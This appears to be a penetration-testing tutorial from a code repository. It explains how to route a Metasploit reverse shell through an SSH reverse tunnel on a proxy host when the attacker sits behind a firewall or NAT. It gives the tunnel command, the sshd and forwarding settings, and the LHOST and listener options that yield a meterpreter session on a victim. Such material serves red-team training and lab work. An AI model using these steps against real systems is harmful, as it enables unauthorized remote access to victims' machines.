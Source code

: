 # Reverse shell from behind a firewall

## Scenario
The following describes overcoming a scenario where your Metasploit instance does not have inbound connectivity for a reverse shell on a target machine to connect to. It assumes you cannot use a bind shell on the victim as an alternative.

The attacking machine could be hosted in a private network, behind a firewall with NAT or is connected to the Tor network for example.

![Image](images/1.png)

The payload used for the reverse connection can be anything desired, i.e. reverse_tcp, reverse_http, etc.

## Setup
The prerequisite is you have access to a secondary host which the target victim host can connect to. In this example we will be using SSH to proxy the connections.

Take note of the direction of the arrows in the following diagram. The attacking host (192.168.0.1) establishes an SSH connection to the proxy (10.0.0.1) and can reach the victim host (172.16.0.1) -

![Image](images/2.png)

1] In preparation, a reverse SSH tunnel is established from the attacking host to the proxy by invoking the ssh client on the attacking host (192.168.0.1)
```bash
ssh attacker@10.0.0.1 -R 4444:127.0.0.1:4444
```

The SSH client on the attacker will bind to 127.0.0.1:4444 on the attacking machine (10.0.0.1). The remote SSH server will also listen on port 4444.

![Image](images/3.png)

By default SSHD will bind to the loopback interface only, but we want to allow external connectivity to this port so our victim host can connect. Use the `-g` switch or configure `GatewayPorts yes` in `/etc/ssh/sshd_config` on the SSH proxy so the socket listens on 0.0.0.0. Verify -

``` bash

$ netstat -tan | grep 4444
tcp        0      0 0.0.0.0:4444           0.0.0.0:*               LISTEN     
tcp6       0      0 :::4444                :::*                    LISTEN     

```

Note: Ensure IPv4 forwarding is enabled on the SSH proxy, i.e.  
`sysctl -w net.ipv4.ip_forward=1`

Now the exploit is triggered from Metasploit, invoking a reverse shell payload on the victim host. The victim host establishes a connection to the proxy host, rather then the attacking machine -

![Image](images/4.png)

As there is a reverse tunnel bound to port 4444, the victim's reverse shell will effectively proxy to the attacker over the reverse SSH tunnel previously established -

![Image](images/5.png)

There are two settings that must be configured in Metasploit for this to work -

1. Set LHOST to the IP address of the SSH proxy server, otherwise the payload executed on the victim will attempt to connect to the non-routable IP address bound to the attacker host (192.168.0.1)

```
> SET LHOST 10.0.0.1
```

2. By default Metasploit will bind to interface address specified by LHOST. Configure reverse listener to bind to the loopback address or all interfaces (0.0.0.0) -

```
> set ReverseListenerBindAddress 0.0.0.0
```

On success, a meterpreter session will be established between the attacker and the victim hosts -
![Image](images/6.png)
